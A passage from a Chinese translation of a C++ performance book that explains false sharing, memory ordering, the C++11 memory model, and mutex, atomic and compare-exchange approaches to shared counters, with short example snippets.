我们有一个全局结果`sum`，它在所有线程之间共享，并且必须是原子的(或者由锁保护)。但是在所有的工作完成后，每个线程只访问这个变量一次。每个线程使用另一个变量来保存部分和，只保存在该线程上添加的值(在我们的简单示例中，增量为1，但无论添加的值是什么，性能都是相同的)。我们可以创建一个大数组来存储每个线程的部分和，并给每个线程一个单独的数组来对元素进行处理。在这个简单的例子中，可以只使用一个局部变量，但是在实际的程序中，部分结果通常需要在工作线程完成之后保存，而这些结果的最终处理可能是通过其他线程完成的。为了模拟这种实现，我们使用每个线程的数组。注意，这些数组中只是普通的整数:不会并发访问。在此过程中，我们落入了错误共享的陷阱:数组的相邻元素(通常)位于同一高速缓存行上，因此不能并发访问。这反映在程序的性能上:

\
图5.8 - 有与没有伪共享的累加计算

可以在图5.8中看到，程序的扩展性非常差，需要开非常多的线程才会好。另一方面，如果通过确保每个线程的部分和之间，至少有64字节(或者在我们的例子中仅使用局部变量)来消除伪共享，那么就可以完美地扩展。当使用更多的线程时，两个程序都会变得更快，但不受伪共享影响的实现性能，可以是单线程的(大约)两倍。

第二点将在后面的章节中变得更加重要。由于并发访问共享变量相对来说非常昂贵，因此使用较少共享变量的算法或实现通常会执行得更快。

目前，这种说法可能令人困惑。问题的本质是，有一些必须共享的数据。可以像刚才那样进行优化，并消除对该数据的不必要访问。完成后，剩下的就是需要访问的数据，以产生所需的结果。那么，共享变量怎么可能更多或更少呢？要理解这一点，必须了解，好的并发代码比保护对所有共享数据的访问更重要。

###  5.5.并发和内存序 {#并发和内存序 .unnumbered}

访问共享数据而不进行访问同步(通常是互斥或原子访问)的程序都会出现未定义行为，这通常称为数据竞争。这看起来很简单，至少在理论上是这样，而我们的例子太简单了，只有一个变量在线程之间共享。但在现实中，并发不仅仅是锁定共享变量那么简单。

**5.5.1顺序的必要性**

来看一下**生产者-消费者**的例子。假设有两个线程：第一个线程(生产者)通过构造对象准备一些数据；第二个线程，即消费者，处理数据(处理每个对象)。简单起见，假设有一个很大内存缓冲区，没有初始化，生产者线程在缓冲区中构造新的对象，就如同数组元素一样:

``` {style="styleCXX"}
size_t N; // Count of initialized objects
T* buffer; // Only [0]…[N-1] are initialized
```

为了生成(构造)一个对象，生产者线程通过`new`操作符对数组的每个元素进行构造，从`N==0`开始:

``` {style="styleCXX"}
new (buffer + N) T( … arguments … );
```

现在，初始化数组`buffer[N]`，并可用于消费者线程。生产者通过推进计数器`N`来表示，然后继续初始化下一个对象:

``` {style="styleCXX"}
++N;
```

当`i`大于`N`时，消费者线程不能访问数组元素`buffer[i]`

``` {style="styleCXX"}
for (size_t i = 0; keep_consuming(); ++i) {
	while (N <= i) {}; // Wait for the i-th element
	consume(buffer[i]);
}
```

忽略内存耗尽的问题，并假设缓冲区足够大。此外，现在不关心终止条件(消费者如何知道可以继续消费？)。目前，感兴趣的是生产者-消费者信号交换协议，消费者如何在没有任何竞争的情况下访问数据？

规则对共享数据的任何访问都必须受到保护。显然，`N`是一个共享变量，所以对它的访问需要更多的注意:

``` {style="styleCXX"}
size_t N; // Count of initialized objects
std::mutex mN; // Mutex to guard N
… Producer …
{
	std::lock_guard l(mN);
	++N;
}
… Consumer …
{
	size_t n;
	do {
		std::lock_guard l(mN);
		n = N;
	} while (n <= i);
}
```

这就足够了吗？在程序中出现了更多的共享数据。数组`T`在两个线程之间共享，线程需要访问每个元素。如果锁定整个数组，因为两个线程中总有一个需要等待解锁，那就和单线程的实现没区别了。根据经验，写过多线程代码的开发者都知道，不需要锁定数组，只需要锁定计数器即可，因为这个数组不会并发访问。首先，生产者在计数器递增之前访问这个数组。然后，在计数器增加后，消费者才会访问这个数组，这些都是已知情况。但本书的目的是让你理解程序为什么会这样做。那么问题来了，为什么锁上计数器就足够了？是什么保证程序真的按照期望的顺序执行呢？

现在这个简单的例子，也变得不那简单了。无效的保护消费者使用计数器的代码如下所示:

``` {style="styleCXX"}
std::lock_guard l(mN);
while (N <= i) {};
```

这是一个有死锁写法。当使用者获得了锁，就会等待元素`i`初始化。生产者无法进行操作，只能等待解锁，然后才能增加计数器`N`。两个线程现在都在永远等待。如果只是为计数器使用原子变量，代码就会简单很多:

``` {style="styleCXX"}
std::atomic<size_t> N; // Count of initialized objects
… Producer …
{
	++N; // Atomic, no need for locks
}
… Consumer …
{
	while (N <= i) {};
}
```

现在，消费者对计数器`N`的读取是原子的，但在两次读取之间，生产者没有阻塞，可以继续工作。这种实现并发的方法称为**无锁**(它不使用任何锁)，我们将在稍后讨论这种方式。现在的问题是:是否能够保证生产者和消费者不在同时访问同一个`buffer[i]`？

**5.5.2内存序和内存栅栏**

仅仅能够安全地访问共享变量，还不足以应对并发程序，还要能够推理出事件发生的顺序。在生产者和消费者的例子中，整个程序基于一个假设:可以保证第`N`个数组元素的构造时，可以将计数器增加到`N + 1`，并且消费者线程访问第`N`个元素也是按这个顺序进行。

但当意识到需要处理的不仅仅是多个线程，而是多个处理器同时执行这些线程时，问题就会变得更加复杂。这里的关键是**可见性**，线程在一个CPU上执行，当CPU给变量赋值时，线程正在对内存进行更改。实际上，CPU只改变了缓存的内容，缓存和内存最终会将这些更改传送到主存或共享的高层缓存中，此时这些更改*可能*对其他CPU可见。"可能"是因为其他CPU的缓存中相同的变量有不同的值，不知道这些差异在何时进行会进行同步。当一个CPU开始对一个原子变量进行操作，那么在这个操作完成之前，其他CPU都不能访问这个变量，并且这个操作完成时，其他CPU都会看到这个变量的最新值(前提是所有的CPU都将这个变量视为原子变量)。我们知道，同样的道理也适用于锁保护的变量。但是这些保证对于生产者-消费者来说是不够的。根据目前所知道的，不能确定它是否正确。因为，我们只关心访问共享变量的一个方面，访问的原子或事务性质。我们希望确保整个操作(无论是简单的还是复杂的)，都作为单个事务执行，而不存在中断的可能性。

但是访问共享数据还有另一个方面，即**内存序**。就像访问本身的原子性一样，它是使用特定机器指令(通常是原子指令本身的属性或标志)激活的硬件特性。

内存序有几种形式，最不受限制的是自由序。当原子操作以自由的顺序执行时，能保证的是操作本身是原子执行的。这是什么意思呢？首先考虑执行原子操作的CPU，它运行一个包含其他操作(包括非原子操作和原子操作)的线程。其中一些操作修改了内存，这些操作的结果其他CPU可以看到。其他操作读取内存，观察其他CPU执行的执行结果。运行线程的CPU按照一定的顺序执行这些操作，可能不是在程序中提前写好的顺序。通常是为了提高性能，编译器和硬件都可以重排指令，而这是定义明确的顺序。现在以另一个正在执行另一个线程的CPU的角度来看这个问题。当第一个CPU工作时，第二个CPU可以看到内存内容的变化，它们的顺序不一定一致:

{width="60%"}\
图5.9 - 自由内存序操作的可见性

这就是可见性，CPU按照一定的顺序执行操作，但结果对其他CPU是可见的，但顺序却不同。这里，我们通常只讨论操作的可见性，而不是每次的结果。

在共享计数器`N`上的操作是按照自由内存序执行的，这会让我们陷入严重的麻烦中。使程序正确的唯一方法是使用锁，以便只有一个线程(生产者或消费者)运行，并且没有从并发性方面得到性能的改进。

幸运的是，还可以使用其他的内存序，比如获取-释放内存序。当原子操作按照这个顺序执行时，可以保证访问内存，并在原子操作之前执行的操作，在另一个线程对同一原子变量执行原子操作之前是可见的。类似地，在原子操作之后执行的操作只有在对同一变量进行原子操作之后才可见。同样，当讨论操作的可见性时，是说结果对其他CPU可见。这在图5.10中很明显:在左边，CPU0在执行的操作。在右边，与CPU1看到的相同的操作。特别要注意的是，右边有显式的原子写操作。但是CPU1不执行原子写，它执行一个原子读来查看CPU0执行的原子写的结果。所有其他操作也一样:左边，是CPU0的执行顺序。右边，是CPU1可见的顺序。

{width="60%"}\
图5.10 - 获取-释放内存序操作的可见性

获取-释放是一个包含许多重要信息的声明，这里先来详细阐述几个不同的观点。首先，顺序是相对于两个线程在同一个原子变量上执行的操作定义的。除非两个线程以原子的方式访问同一个变量，否则它们的时钟对彼此来说完全没意义，无法推断出在其他事情前后发生了什么。只有当一个线程观察到另一个线程执行的原子操作的结果时，才可以在此基础上，对操作前后的行为进行讨论。在生产者-消费者的例子中，生产者以原子的方式增加计数器`N`，消费者以原子的方式读取同一个计数器。如果计数器没有改变，则对生产者的状态一无所知。但当消费者看到计数器从N变成了N+1，并且两个线程都使用了获取-释放内存序，就知道生产者在计数器增加之前执行的所有操作，现在对消费者是可见的。这些操作包括构造相应的元素，并将其保存在数组`buffer[N]`中所需的所有工作，所以消费者可以安全地进行访问。

第二个要点是，在访问原子变量时，两个线程都必须使用获取-释放内存序。如果生产者使用这个顺序来增加计数值，但是消费者使用自由内存序来读取，就不能保证操作的可见性了。

最后一点是，所有的顺序都是根据对原子变量的操作前后给出的。同样，在生产者-消费者的例子中，生产者为构造第N个对象而执行的操作结果，在消费者看到计数器变化时都是可见的。这些操作的可见顺序没有保证，可以在图5.10中看到这一点。当然，在构建对象之前不能访问，而当构建完成，就不关心完成的顺序了。具有内存序的原子操作保证充当其他操作无法跨越的栅栏，可以在图5.10中想象这样存在这样一个栅栏，它把整个程序分成两个不同的部分:计数之前发生的和计数之后发生的操作。由于这个原因，讨论类似内存栅栏这样的原子操作通常会比较简单。

假设，程序中计数器`N`上的所有原子操作都有获取-释放栅栏，这肯定能保证程序的正确性。然而，请注意，获取-释放对于我们的需求来说过度了。对于生产者来说，它给了我们保证，当消费者看到计数器从N到N+1的变化时，所有在计数增加到N+1之前构建的`buffer[0]`到`buffer[N]`都是可见的。还可以保证，为构造剩余的对象、`buffer[N+1]`或更大的对象而执行的操作中，没有一个是可见的。消费者不会访问这些对象，直到它看到计数器的更新。在消费者端，保证在消费者看到计数器改变为N+1后，执行的所有操作都会在原子操作之后产生效果(内存访问)。我们需要这样的保证，不希望CPU重排消费者操作，并在准备好之前执行一些访问对象`buffer[N]`的指令。但也可以保证消费者处理之前的对象(比如`buffer[N-1]`)所做的工作已经完成，并且在消费者处理到下一个对象之前对所有线程可见。再说一遍，我们不需要这种保证，没有任何操作需要这个保证。

严格的内存序是否有害？对正确性而言，没有。但这是一本关于编写高效程序(也是正确的程序)的书。为什么内存序的保证是必须的呢？因为让编译器和处理器自己处理时，它们可以以重排程序的指令。为什么要这么做呢？通常是为了提高性能。因此，对重新排序执行的能力施加的限制越多，对性能越不利。因此，希望使用的内存序对程序的正确性有足够的限制，但不能太严格。

为生产者-消费者程序提供所需要的内存序如下。在生产者端，需要获得-释放内存栅栏所提供的一半保证。所有在使用栅栏的原子操作之前执行的操作，必须在其他线程执行相应的原子操作之前可见。这就是释放内存序:

{width="60%"}\
图5.11 - 释放内存序

当CPU1看到CPU0以释放内存序执行的原子写操作结果时，可以保证CPU1看到的内存状态已经反映给CPU0在这个原子操作之前执行的所有操作。注意，没有提到CPU0在原子操作之后执行的操作。正如在图5.11中看到的，这些操作可以以任何顺序显示。由原子操作创建的内存栅栏只在一个方向上有效。在栅栏之前执行的操作都不能跨越它，并且在栅栏之后才看到。但是在另一个方向上，栅栏是可渗透的。出于这个原因，释放内存栅栏和相应的获取内存栅栏有时称为**半栅栏**。

获取内存序在消费者端使用，确保栅栏后执行的所有操作对栅栏后的其他线程可见，如图5.12所示:

{width="60%"}\
图5.12 - 获取内存序

获取和释放内存栅栏总是成对使用:如果一个线程(在我们的例子中，是生产者线程)使用一个原子操作来释放内存，那么另一个线程(消费者线程)必须在同一个原子变量上使用获取内存序。为什么需要两个栅栏？一方面，可以保证生产者在增加计数之前构建新对象所做的一切，只要看到这个增量，消费者就可以看到。但这还不够，因此需要保证消费者为处理这个新对象而执行的操作不会在时间上向后移动，回到栅栏之前的某个时刻，此时他们可能已经看到了处于未完成状态的对象。

仅仅对共享数据进行原子化操作是不够的，上面的方法对生产者-消费者项目是否真的有效？锁和无锁版本都是正确的，尽管没有明确地说明内存序。那么，C++是如何控制内存序的呢？

**5.5.3C++中的内存序**

首先，回想一下我们的生产者-消费者程序的无锁版本，那个有原子计数器的版本:

``` {style="styleCXX"}
std::atomic<size_t> N; // Count of initialized objects
T* buffer; // Only [0]…[N-1] are initialized
… Producer …
{
	new (buffer + N) T( … arguments … );
	++N; // Atomic, no need for locks
}
… Consumer …
for (size_t i = 0; keep_consuming(); ++i) {
	while (N <= i) {}; // Atomic read
	consume(buffer[i]);
}
```

计数器`N`是一个原子变量，由模板`std::atomic`生成的类型对象，类型参数为`size_t`。所有原子类型都支持原子读写操作，可以出现在赋值操作中。此外，整数原子具有以原子方式定义和实现的常规整数操作，因此`++N`是一个原子增量(并不是所有操作都定义了，例如：没有`operator *=`)。这些操作都没有明确指定内存序，那么如何保证内存序呢？在默认情况下，内存序会得到最严格的保证，即每个原子操作的双向内存栅栏(实际的保证甚至更加严格，将在下一节中看到)。这就是我们的程序正确的原因。

若认为这有些过度了，那可以将内存序改为所需要的，但必须显式地进行。原子操作也可以通过调用`std::atomic`类型的成员函数来执行，在这里也可以指定内存顺序。用户线程需要使用获取栅栏进行加载操作:

``` {style="styleCXX"}
while (N.load(std::memory_order_acquire) <= i);
```

生产者线程需要一个带有释放栅栏的自增操作(就像自增操作符一样，成员函数也会返回自增操作完成之前的值):

``` {style="styleCXX"}
N.fetch_add(1, std::memory_order_release);
```

在优化过程中，已经跳过了一个非常重要的步骤。如果认为这有些过度了，那么必须通过性能测试来证明，只有这样才能将保证达到性能和正确性的真正平衡。即使在使用锁的情况下，并发程序也很难编写，必须证明无锁代码和内存序的正确性。

锁的内存顺序是什么呢？锁保护的操作都将被随后获得锁的任何其他线程看到，但是剩下的内存呢？使用锁所强制的内存序如图5.13所示:

{width="60%"}\
图5.13 - 互斥锁的内存序

互斥对象内部(至少)有两个原子操作。锁定互斥锁相当于读取操作和获取内存序(这解释了获取锁时使用的内存序)。在栅栏前执行的操作，都可以在越过栅栏后看到，但是在获得锁之后执行的操作都不能在之前看到。解锁或释放锁时，即为释放内存序。在栅栏之前执行的操作将在栅栏之前可见，获取和释放这对栅栏充当了夹在它们之间的边界，这就是所谓的临界区。在临界区内执行的操作，在线程持有锁时执行的操作，在进入临界区时对其他线程都是可见的。操作都不能离开临界区(在之前或之后变得可见)，但是外部的操作可以进入临界区。至关重要的是，没有操作可以跨越临界区。如果外部操作进入临界区，就不能离开。因此，CPU0在进入临界区之前所做的事情，都会在离开临界区之后让CPU1可见。

对于我们的生产者-消费者计划，这会转化为以下保证:

``` {style="styleCXX"}
… Producer …
new (buffer + N) T( … arguments … );
{ // Critical section start – acquire lock
	std::lock_guard l(mN);
	++N;
} // Critical section end - Release lock
… Consumer …
{ // Critical section – acquire lock
std::lock_guard l(mN);
n = N;
} // Critical section – release lock
consume(buffer[N]);
```

生产者为构造第N个对象而执行的所有操作，都在生产者进入临界区之前完成。将在消费者离开临界区时，开始使用第N个对象之前对其可见。因此，程序是正确的。

刚才的部分介绍了内存序的概念，并举例进行了说明。但是，当试图在代码中使用这些知识时，会发现结果不一致。为了更好地理解性能，应该从同步多线程和避免数据竞争的不同方法中期望得到什么，所以需要一种稍微复杂的方式来描述内存序和相关概念。

###  5.6.内存模型 {#内存模型 .unnumbered}

我们需要一种更系统、更严格的方式来描述线程通过内存交互、对共享数据的使用，及其对并发应用的影响，这个描述称为内存模型。内存模型描述了当线程访问相同的内存位置时存在哪些保证和限制。

C++11标准之前，C++语言没有内存模型(在标准中没有提到线程这个词)。这有什么问题呢？再来看看我们的生产者-消费者例子(关注生产者方面):

``` {style="styleCXX"}
std::mutex mN;
size_t N = 0;
…
new (buffer + N) T( … arguments … );
{ // Critical section start – acquire lock
	std::lock_guard l(mN);
	++N;
} // Critical section end - release lock
```

`lock_guard`只是一个互斥锁的RAII包装器，所以不能忘记解锁:

``` {style="styleCXX"}
std::mutex mN;
size_t N = 0;
…
new (buffer + N) T( … arguments … ); // N
mN.lock(); // mN
++N; // N
mN.unlock(); // mN
```

请注意，这段代码的每一行都使用了`N`或`nM`，但从未在一个操作中一起使用。从C++的角度来看，这段代码可化简为:

``` {style="styleCXX"}
size_t n, m;
++m;
++n;
```

这段代码中，操作的顺序并不重要，只要可观察对象的行为没有改变即可(可观察对象的行为是输入和输出，改变内存中的值不是可观察对象的行为)，编译器就可以重排它们的顺序。回到最初的例子，为什么编译器不重新对操作进行排序呢？

``` {style="styleCXX"}
mN.lock(); // mN
mN.unlock(); // mN
++N; // N
```

这将是非常糟糕的，但C++标准(直到C++11)无法阻止编译器这样做。

当然，早在2011年之前，我们就已经在用C++编写多线程程序了，那么它们是如何工作的呢？显然，编译器当时没有做这样的优化，原因可以在内存模型中找到。编译器提供了超出C++标准的某些保证，并提供了特定的内存模型，即使标准不需要这些模型。基于Windows的编译器遵循Windows内存模型，而大多数基于Unix和Linux的编译器提供POSIX内存模型和相应的保证。

C++11标准改变了这一点，并赋予了C++内存模型。伴随原子操作的内存序保证，而锁是内存模型的一部分。C++内存模型现在保证了跨平台的可移植性，而以前提供了一组在不同平台上的保证，每个保证都根据其内存模型进行。此外，C++内存模型提供了一些特定于语言的保证。

我们已经在不同的内存序标准中看到了这些保证:自由、获取、释放和获取-释放。C++有一个更严格的内存顺序，称为**顺序一致**(`std::memory_order_seq_cst`)，这是默认的内存序。不仅每个原子操作都有一个指定顺序的双向内存栅栏，而且整个程序都满足顺序一致性的要求。这个要求表明，程序的行为都按照一个全局顺序执行。此外，这个全局顺序有一个重要的属性。在一个处理器上执行的任意两个操作A和B，使得A在B之前执行。这两个操作必须以全局顺序出现，并且A也在B之前。可以假设一个顺序一致的程序，为每个处理器设想有一组牌，每张牌是具体的操作。然后把这些牌放到一起，而不洗牌。一组牌的牌在另一组牌之间进行移动，但同一组牌的顺序永远不会改变，一组卡片就是程序中操作的全局顺序。顺序一致性是一个理想的属性，因为它使判断并发程序的正确性变得更加容易。然而，这往往会以性能为代价。可以用一个非常简单的基准测试来进行演示，其比较了不同的内存序:

\
**05_barrier_store.C**

``` {style="styleCXX"}
void BM_order(benchmark::State& state) {
	for (auto _ : state) {
		x.store(1, memory_order);
		… unroll the loop 32 times for better accuracy …
		x.store(1, memory_order);
		benchmark::ClobberMemory();
	}
	state.SetItemsProcessed(32*state.iterations());
}
```

可以使用不同的内存序运行这个基准测试。当然，结果取决于硬件，但下面的结果很罕见:

\
图5.14 -获取-释放与连续一致性内存序的性能

C++内存模型不仅仅是原子操作和内存序。还有，在前面学习伪共享时，假设从多个线程并发地访问数组相邻元素是安全的，这些是不同的变量。然而，语言(甚至编译器)所采用的限制都不能保证。大多数硬件平台上，访问整数数组的相邻元素确实是线程安全的。但对于较小的数据类型(例如`bool`数组)，情况不是这样。许多处理器使用掩码整数写入单个字节，加载包含该字节的整个4字节字，将字节更改为新值，然后将字写回。显然，如果两个处理器同时对共享相同4字节字的两个字节执行此操作，那么第二个写操作将覆盖第一个写操作。C++11的内存模型要求，如果没有两个线程访问同一个变量，那么写入不同的变量(比如数组元素)都是线程安全的。C++11之前，很容易编写一个程序来证明从两个线程写入两个相邻的`bool`或`char`变量不是线程安全的。在这本书中没有这个演示的原因是，今天可用的编译器不会退回到C++03，即使指定标准级别为C++03(这是不保证的，编译器可以使用掩码写在C++03模式中写单个字节，大多数编译器使用与C++11模式相同的指令)。

关于C++内存模型的重要性，最后一个例子也有观察的价值，语言和编译器并不都定义了内存模型。硬件有一个内存模型，操作系统和运行时环境有它们的内存模型，程序运行的硬件/软件系统的每个组件都有一个内存模型。整个内存模型，即程序可用的所有保证和限制的集合，是所有这些内存模型的叠加。有时候，可以利用它，例如：在编写特定于处理器的代码时。然而，任何可移植的C++代码都只能依赖于语言本身的内存模型，并且其他底层内存模型都很复杂。

由于语言的内存模型和硬件的内存模型的不同，出现了两种问题。首先，程序中可能有一些在特定硬件上无法检测到的Bug。考虑用于生产者-消费者程序的获取-释放协议。如果犯了一个错误，在生产者端使用释放内存序，而在消费者端使用自由内存序(完全没有栅栏)，会期望程序间歇性地产生不正确的结果。但是，如果在x86
CPU上运行这个程序，它似乎是正确的。这是因为x86架构的内存模型是这样的，每个存储都伴随着一个释放栅栏，而每个加载都有一个隐式的获取栅栏。当然，程序仍然存在一个漏洞，如果将其移植到基于ARM的处理器(就像iPad上的处理器)上，它就会给我们带来麻烦。但是在x86硬件上找到这个Bug的唯一方法会用到GCC和Clang中提供的**Thread
santizer(TSAN是一种C/C++数据竞争检测工具)**工具。

第二个问题与第一个问题相反，减少对内存序的限制并不总是会带来更好的性能。在一个x86处理器上从释放到自由内存序写操作不会带来任何性能上的提升，因为总的内存模型可以保证释放顺序(理论上，编译器可能会对自由内存序做更多的优化，而大多数编译器根本不会优化原子操作)。

内存模型为讨论程序如何与内存系统交互提供了科学基础和通用语言，内存栅栏是开发者在代码中用来控制内存模型特性的实际工具。通常，这些栅栏是通过使用隐式调用锁完成的。内存栅栏的最佳使用可以对某些高性能并发程序的效率，产生很大的影响。

###  5.7.总结 {#总结-4 .unnumbered}

本章中，我们了解了C++内存模型，以及它给开发者的保证。需要对多线程通过共享数据进行交互时，所发生的详细情况，进行全面的理解。

多线程程序中，对内存的非同步和无序访问会导致未定义行为，必须避免。然而，成本通常是通过性能来支付的。虽然我们看重正确性，但当涉及到内存同步时，很容易为正确性付出过高的代价。我们已经了解了管理并发内存访问的不同方法，以及优缺点。最简单的选择是锁定对共享数据的所有访问。另一方面，最复杂的实现使用原子操作，并尽可能少地限制内存序。

性能的第一条规则在这里是完全有效的:*性能必须测量，而不是猜测*。这对于并发程序来说尤为重要，在并发程序中，由于种种原因，聪明的优化可能无法产生可测量的结果。另一方面，可以保证的是，带锁的简单程序更容易编写，而且更有可能是正确的。

有了数据共享对性能影响的理解，就可以更好地理解测试结果，以及在什么时候尝试优化并发内存访问。受内存序限制影响的代码部分越大，放松这些限制就越有可能提高性能。请记住，有些限制来自硬件本身。

总的来说，这比在前面几章中处理的任何内容都要复杂得多(不奇怪，并发通常就很难)。下一章将展示在不放弃性能优势的情况下，了解在程序中如何管理这种复杂性的方法。还将看到如何将这里学到的知识，应用于实际。

###  5.8.练习题 {#练习题-4 .unnumbered}

1.  什么是内存模型？

2.  为什么访问共享数据如此重要？

3.  什么决定了程序的内存模型？

4.  什么限制了并发性带来的性能收益？

# 第二部分：高级并发 {#第二部分高级并发 .unnumbered}

探讨使用并发实现高性能的更高级方式。我们将了解使用互斥锁实现线程安全的方法，以及何时避免使用互斥锁，从而实现无锁同步。还将了解C++中并发特性库最近增加的内容:协程和并行算法。

本节包括以下几章:

-   第6章，并发性和性能

-   第7章，用于并发的数据结构

-   第8章，C++中的并发

##  第6章并发性和性能 {#第6章并发性和性能 .unnumbered}

上一章中，我们了解了影响并发程序性能的基本因素。现在是时候将这些知识用于实际，并学习如何为线程安全的程序开发高性能并发算法和数据结构。

一方面，要充分利用并发性，必须以高级视角看待问题和解决方案策略:选择数据组织方式、工作分区，有时甚至是解决方案的定义都会对程序性能产生重大影响。另一方面，性能受到底层影响极大，比如缓存中数据的排列，即使是最好的设计也可能被糟糕的实现所破坏。这些底层的细节常常难以分析，难以用代码表达，并且需要非常仔细的编码。我们不期望这些代码散落的到处都是，因此必须对它们进行封装，所以需要考虑封装这种复杂性的最佳方式。

本章将讨论以下内容:

-   高效的并发性

-   锁的使用、锁的缺陷，以及无锁编程

-   线程安全的计数器和累加器

-   线程安全的智能指针

###  6.1.相关准备 {#相关准备-4 .unnumbered}

需要一个C++编译器和一个微基准测试工具，比如谷歌基准测试库(<https://github.com/google/benchmark>)。

本章的源码地址：<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter06>。

###  6.2.如何高效地使用并发？ {#如何高效地使用并发 .unnumbered}

使用并发性来提高性能非常简单，第一种方法是为并发线程和进程提供足够的工作，使它们始终处于忙碌状态；第二个是减少共享数据的使用，并发访问共享变量的开销非常大。剩下的只是如何实现的问题。

但实现往往相当残酷，而且当期望的性能增益更大，并且当硬件变得更强大时，难度就会增加。每个从事并发工作的开发者都听说过Amdahl法则，但并不是每个人都完全理解它的含义。

法则本身很简单：对于一个具有并行(可扩展)部分和单线程部分的程序，最大可能的加速*s*如下所示:


$s = \dfrac{s_0}{s_0(1-p)+p}$


这里，计算是程序并行部分的加速比，也是程序并行部分的分数。现在考虑一下在大型多处理器系统上运行程序的情况:如果有256个处理器，并且能够充分利用它们，除了运行时间的1/256，程序的总加速会限制为128，加速比削减了一半。换句话说，如果只有1/256的程序是单线程的，或者是在锁下执行的，那么不管如何优化程序的其余部分，在这个256个处理器的系统的加速比永远不会超过50%。

这就是为什么在开发并发程序时，设计、实现和优化的重点应该是使单线程计算并发化，并减少程序访问共享数据所花费的时间。

第一个目标，从算法的选择开始使计算并行化，但是许多设计决策会影响结果，所以应该更多地进行了解。第二种方法是降低数据共享的成本，延续了上一章的主题，当所有线程都在等待访问某个共享变量或锁(它本身也是一个共享变量)时，程序实际上是单线程的，只有当前有访问权限的线程在运行，这就是为什么全局锁和全局共享数据对性能不利的原因。但是，即使是多个线程之间共享的数据，如果并发访问这些线程，也会限制这些线程的性能。

数据共享的需求基本上是由问题本身导致的，特定问题的数据共享量可能受到算法、数据结构选择和其他设计决策以及实现的影响。有些数据共享是实现的产物，或数据结构选择的结果，但其他共享数据则是问题本身。如果需要计算满足某个属性的数据元素，比如只有一个计数，所有线程必须将其更新为共享变量。然而，实际发生了多少共享，以及对总体程序加速的影响，在很大程度上取决于具体实现。

本章中，我们将追寻两条线索:首先，考虑到一些不可避免的数据共享，将研究如何使这个过程更有效。然后，考虑设计和实现技术，这些可以用来减少数据共享的需求或减少等待访问该数据的时间。从第一个问题开始把，如何进行高效的数据共享。

###  6.3.锁的替代方案以及性能 {#锁的替代方案以及性能 .unnumbered}

当接受了某些数据共享即将发生的事实，就必须接受对共享数据的同步。记住，在没有同步的情况下，对相同数据的并发访问都会导致数据竞争和未定义行为。

保护共享数据的常用方法是使用互斥锁:

``` {style="styleCXX"}
std::mutex m;
size_t count;// Guarded by m
… on the threads …
{
	std::lock_guard l(m);
	++count;
}
```

这里使用C++17模板类型推断来实现`std::lock_guard`。在C++14中，必须指定模板类型实参。

使用互斥对象相当简单，访问共享数据的代码都应该位于临界区，也就是在锁定和解锁互斥对象的调用之间。互斥锁的实现有正确的内存栅栏，以确保临界区中的代码不会被硬件或编译器移出临界区(编译器通常不会在锁操作中移动代码。不过，只要遵循内存栅栏的语义，理论上可以做这样的优化)。

这时候通常会问的是:"互斥锁的开销有多大？"然而，这个问题并没有很好地答案:对于特定的硬件和给定的互斥锁实现，当然可以给出绝对的答案，甚至以纳秒为单位，但是这个值有什么意义呢？这当然比没有互斥对象开销小得多，但没有互斥对象，结果就会不正确(而且有更简单的方法可以快速生成不正确的程序)。所以，"开销大"的定义只能与替代方案相比较，这自然引出了下一个问题，替代方案是什么？

最明显的替代方法是使计数原子化:

``` {style="styleCXX"}
std::atomic<size_t> count;
… on the threads …
++count;
```

还必须考虑需要什么内存序来与计数上的操作相关联。如果稍后使用该计数，例如在数组中进行下标索引，那可能需要释放-获取序。但如果只是一个计数，只是要统计一些事件并报告数量，那就不需要内存序限制:

``` {style="styleCXX"}
std::atomic<size_t> count;
… on the threads …
count.fetch_add(1, std::memory_order_relaxed);
```

是否使用栅栏取决于硬件。在x86上，原子增量指令有"内置"的双向内存栅栏，自由序不会让它更快。尽管如此，为了可移植性和清晰性，指定代码需要的内存序仍然很重要。记住，**写代码不是给解析代码的编译器看的，而是给需要阅读代码的其他开发者看的**。

具有原子增量的程序没有锁，也不需要任何锁。然而，它依赖于特定的硬件能力。处理器有一个原子增量指令，这类指令的集合相当小。如果需要一个没有原子指令的操作，该怎么办？在C++中，没有原子乘法(不知道任何硬件有这样的能力。当然，在x86、ARM或其他任何通用CPU架构上都找不到)。

不过，有一种"通用的"原子操作，可以用来构建任何读-改-写操作(困难程度不同)。这个操作称为**比较-交换**，在C++中称为`compare_exchange`。它有两个参数:第一个是原子变量的预期当前值，第二个是预期的新值。如果实际的当前值与期望值不匹配，则什么也不会发生，原子变量也不会发生更改。但是，如果当前值与期望值匹配，则需要的值将写入原子变量。C++的`compare_exchange`操作会返回true或false来指示写操作是否发生(如果发生则返回true)。如果变量与预期值不匹配，则在第一个参数中返回实际值。通过比较和交换，可以实现原子增量操作:

``` {style="styleCXX"}
std::atomic<size_t> count;
… on the threads …
size_t c = count.load(std::memory_order_relaxed);
while (!count.compare_exchange_strong(c, c + 1,
	std::memory_order_relaxed, std::memory_order_relaxed)) {}
```

首先，C++中操作的实际名称是`compare_exchange_strong`和`compare_exchange_weak`。不同的是，即使当前值和期望值匹配，弱版本有时也会返回false(在x86上，这没有区别，但在一些平台上，弱版执行的更快)。其次，该操作接受两个内存序:第二个内存序应用于比较失败时(因此它只是操作的比较部分的内存顺序)，第一个内存序应用于比较成功并发生写操作时。

分析这个实现是如何工作的。首先，以原子的方式读取count的当前值`c`。当然，增量后是`c + 1`，但不能直接将其赋给count。因为在读取之后，更新之前，另一个线程也可以给count赋值。因此，必须进行条件写入:如果count的当前值仍然是`c`，则将其替换为所需的值`c + 1`。否则，用新的当前值更新`c`(`compare_exchange_strong`可以做到)，然后再试一次。只有捕捉到原子变量，在上次读取的时间和试图更新之间没有变化时，循环才会退出。当然，有原子增量操作时，就没有理由这样来增加计数。但这种方法可以推广到其他计算中，可以使用其他表达式，而不是`c + 1`，并且程序将以同样的方式进行。

虽然这三个版本的代码都执行相同的操作，但它们之间有着根本性的区别，必须对此进行更详细的研究。

-3.25ex-1ex -.2ex 1.5ex .2ex

**6.3.1锁、无锁和无等待**

使用互斥锁是最容易理解的，一个线程可以持有锁，因此线程可以增加计数。当释放锁后，另一个线程可以获取它并增加计数，依此类推。最多只能有一个线程持有锁并进行操作，所有需要访问的剩余线程都在等待该锁。但是，即使拥有锁的线程也不能保证可以正常运行。如果需要在完成任务之前访问另一个共享变量，那么可能需要等待由其他线程持有的锁。这是常见的基于锁的方式，通常不是最快的，但最容易理解。

